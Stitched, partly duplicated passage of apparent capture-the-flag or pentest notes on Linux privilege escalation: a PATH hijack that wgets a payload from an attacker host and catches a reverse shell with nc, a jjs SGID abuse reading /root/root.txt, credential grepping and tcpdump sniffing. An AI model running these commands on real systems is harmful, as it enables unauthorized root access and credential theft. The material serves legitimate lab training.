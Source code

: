 ```
theseus@ubuntu:/var/tmp$ wget http://10.10.14.20/free
```
```
theseus@ubuntu:/var/tmp$ chmod 755 free
```
Prepend the current directory or where the new “free” executable is located to the PATH variable (this is the important part of this privilege escalation process), and run sysinfo to gain a root shell:
```
theseus@ubuntu:/var/tmp$ PATH=/var/tmp:$PATH
```
```
theseus@ubuntu:/var/tmp$ sysinfo
```
```
nc -nlvp 1337
```


# LineEnum.sh
```
$ ./LinEnum.sh
...
[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
...
```
Admin is able to run this file as root which is very promising. There is an entry for jjs on GTFOBins. One such thing we can do is make arbitrary reads/writes to the system. If we wanted some persistence, we could write our SSH key to root's authorized keys. Since we just need the flag, we can read it.
```
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
> var FileReader = Java.type("java.io.FileReader");
> var br = new BufferedReader(new FileReader("/root/root.txt"));
> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef7**************************
search the files for interesting data
grep -iR passwd *
If you have an internal listening service
cat /etc/apache2/sites-available/internal.conf 
Listen 127.0.0.1:52846
```
# If you have an internal listening service
```
cat /etc/apache2/sites-available/internal.conf 
```
```
Listen 127.0.0.1:52846
```
```
curl localhost:52846/main.php
```
# tcpdump
Since we have root access on dmz01 via SSH, we can run tcpdump as it's on the system. It can never hurt to "listen on the wire" whenever possible during a pentest and see if we can grab any cleartext credentials or generally uncover any additional information that may be useful for us
```
```